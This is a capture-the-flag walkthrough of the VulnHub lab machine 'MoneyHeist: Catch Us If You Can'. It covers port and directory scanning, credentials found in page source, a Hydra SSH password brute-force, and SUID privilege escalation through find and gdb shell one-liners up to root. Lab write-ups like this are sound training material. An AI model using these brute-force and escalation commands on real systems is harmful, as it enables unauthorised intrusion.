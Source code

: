 ```yaml
---
title: MoneyHeist-Catch Us If You Can - Writeup
author: Elman Alizadeh
date: 2022-04-27 14:10:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, moneyheist]
---
```


Today we will take a look at Vulnhub: Catch Us İf You Can. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-money/1.jpeg" | relative_url }})

## Network scan

 Command: sudo nmap -p- -sV -sC -oN nmap/open 192.168.0.110 — open

![Desktop View]({{ "/assets/img/vuln-money/2.png" | relative_url }})

## Gobuster scan

 Command: gobuster dir -u http://192.168.0.110/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

![Desktop View]({{ "/assets/img/vuln-money/3.png" | relative_url }})

When we look at the robots extension, we see the image tokyo.jpeg. but he was injured. Let’s download and fix.

![Desktop View]({{ "/assets/img/vuln-money/4.png" | relative_url }})

 Command: wget http://192.168.0.110/robots/tokyo.jpeg

You can find true titles here

[Link](https://en.wikipedia.org/wiki/List_of_file_signatures)

 Command: hexeditor tokyo.jpeg

![Desktop View]({{ "/assets/img/vuln-money/5.png" | relative_url }})

Let’s look at the corrected image.

![Desktop View]({{ "/assets/img/vuln-money/6.png" | relative_url }})

This is a trap.

Let’s look at the gate extension

![Desktop View]({{ "/assets/img/vuln-money/7.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/8.png" | relative_url }})

we see the gate.exe file. let’s download and see

![Desktop View]({{ "/assets/img/vuln-money/9.png" | relative_url }})

Here’s a new extension.

![Desktop View]({{ "/assets/img/vuln-money/10.png" | relative_url }})

When we look at the page, we see a simple page. let’s check the bride extension

 Command: gobuster dir -u http://192.168.0.110/BankOfSp41n -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt

![Desktop View]({{ "/assets/img/vuln-money/11.png" | relative_url }})

When you go to login.php, it is a simple login page. Let’s check a few simple default credentials

![Desktop View]({{ "/assets/img/vuln-money/12.png" | relative_url }})

Let’s look at the source code

![Desktop View]({{ "/assets/img/vuln-money/13.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/14.png" | relative_url }})

And here we find the username and the password, let’s enter.

![Desktop View]({{ "/assets/img/vuln-money/15.png" | relative_url }})

When I looked at the page, I couldn’t find anything to use

I looked at the source code at the end and saw a username here

![Desktop View]({{ "/assets/img/vuln-money/16.png" | relative_url }})

Let’s try to log in with ssh with this name. But first let’s find the password

## Hydra

Command: hydra -l arturo -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.110:55001 -I -t 4

![Desktop View]({{ "/assets/img/vuln-money/17.png" | relative_url }})

## Ssh

![Desktop View]({{ "/assets/img/vuln-money/18.png" | relative_url }})

Command: find / -type f -perm -04000 -ls 2>/dev/null

![Desktop View]({{ "/assets/img/vuln-money/19.png" | relative_url }})

Let’s change the user. We will use it for this

[Gfto](https://gtfobins.github.io/)

Command: find . -exec /bin/sh -p \; -quit

![Desktop View]({{ "/assets/img/vuln-money/20.png" | relative_url }})

Yes we are now denver.

![Desktop View]({{ "/assets/img/vuln-money/1.gif" | relative_url }})

Let’s look at the secret_diary of the Denver folder and get a new extension. let’s check it

![Desktop View]({{ "/assets/img/vuln-money/21.png" | relative_url }})

Let’s use it to decode

[Cryptii](https://cryptii.com/)

![Desktop View]({{ "/assets/img/vuln-money/22.png" | relative_url }})

Find the encrypted text by making different decodings

![Desktop View]({{ "/assets/img/vuln-money/23.png" | relative_url }})

## Nairobi

Command: su nairobi

![Desktop View]({{ "/assets/img/vuln-money/24.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/2.gif" | relative_url }})

## Tokyo

Command: find / -type f -perm -04000 -ls 2>/dev/null

![Desktop View]({{ "/assets/img/vuln-money/25.png" | relative_url }})

Command: gdb -nx -ex ‘python import os; os.execl(“/bin/sh”, “sh”, “-p”)’ -ex quit

![Desktop View]({{ "/assets/img/vuln-money/26.png" | relative_url }})

![Desktop View]({{ "/assets/img/vuln-money/3.gif" | relative_url }})

I looked in Tokyo’s folder and saw an text like this.

![Desktop View]({{ "/assets/img/vuln-money/27.png" | relative_url }})

## Root 

If we combine the capital letters of the words, we get the root password.

![Desktop View]({{ "/assets/img/vuln-money/28.png" | relative_url }})

# And now we are the root

![Desktop View]({{ "/assets/img/vuln-money/4.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”


























